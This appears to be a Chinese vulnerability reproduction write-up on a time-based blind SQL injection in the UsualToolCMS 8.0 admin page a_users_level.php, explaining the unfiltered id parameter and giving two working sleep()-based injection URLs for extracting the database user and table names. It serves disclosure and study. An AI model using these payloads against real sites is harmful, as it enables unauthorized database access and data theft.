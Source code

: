 # UsualToolcms 8.0 后台盲注

> 原文：[https://www.zhihuifly.com/t/topic/3215](https://www.zhihuifly.com/t/topic/3215)

# UsualToolcms 8.0 后台盲注

## 一、漏洞简介

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

### 漏洞分析

./cmsadmin/a_users_level.php第19行和第26行，id参数可控

![image](img/cc86e01958ff9282f9738fbeebca0a62.png)

从get处获取id参数，id存在无任何过滤，当postt id时，通过sqlcheck函数进行过滤，来到文件./class/UsualToolCMS_INC.php第33行，将(',,",null)转义，34行调用sqlchecks函数，比没过滤sql，然而a_users_level.php第19行id不是字符

![image](img/4ceef9da75cfdd3a07f2897fcb32d3df.png)

### 复现

可以利用时间盲注来进行sql注入攻击，payload如下：

```
a.当前数据库：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr(user(),1,1))=114,sleep(6),1) 
```

```
b.表：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>30,sleep(6),1) 
```

![image](img/e5ce76b6ba2159aab96074e01842892d.png)

时间盲注验证脚本

![image](img/671fc39af2dd6bd53e35b0d6c48a7c92.png)

![image](img/7ae951207a79bfc45293e610e6ea8f66.png)